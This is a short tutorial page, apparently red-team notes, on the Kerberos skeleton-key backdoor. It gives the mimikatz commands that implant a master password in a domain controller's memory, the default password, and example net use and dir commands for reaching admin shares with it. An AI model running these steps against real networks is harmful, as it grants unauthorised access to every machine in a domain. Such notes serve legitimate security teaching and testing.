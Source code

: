 # Skeleton backdoor

Unlike the golden and silver ticket attacks a **Kerberos backdoor** is much more subtle because it acts **similar to a rootkit** by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password.  

The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps.  

**A skeleton key only works using Kerberos RC4 encryption.**  
The default hash for a mimikatz skeleton key is `60BA4FCADC466C7A033C178194C03DF6` which is the password `mimikatz`

```cmd
mimikatz.exe
privilege::debug
```

As always, check if you have admin permissions
```cmd
misc::skeleton
```

### Accessing the forest
The default credentials will be: `mimikatz`

**example:** 
```cmd
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```
- The share will now be accessible without the need for the Administrators password

**example:** 
```cmd
dir \\Desktop-1\c$ /user:Machine1 mimikatz 
```

- access the directory of `Desktop-1` without even knowing what users have access to `Desktop-1`

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques.
